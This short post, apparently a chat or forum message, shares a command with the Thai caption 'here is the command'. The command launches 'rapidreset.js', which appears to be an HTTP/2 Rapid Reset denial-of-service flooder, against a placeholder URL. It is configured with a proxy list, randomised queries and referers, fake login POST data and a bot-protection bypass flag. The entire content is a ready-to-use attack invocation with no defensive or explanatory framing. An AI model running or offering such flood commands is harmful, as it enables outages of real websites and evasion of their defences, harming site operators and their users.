 นี่นะคำสั่ง

node rapidreset.js GET "https://example.com?q=%RAND%" 120 16 90 proxy.txt --query 1 --cookie "uh=good" --delay 1 --bfm true --referer rand --postdata "user=f&pass=%RAND%" --debug --randrate --full
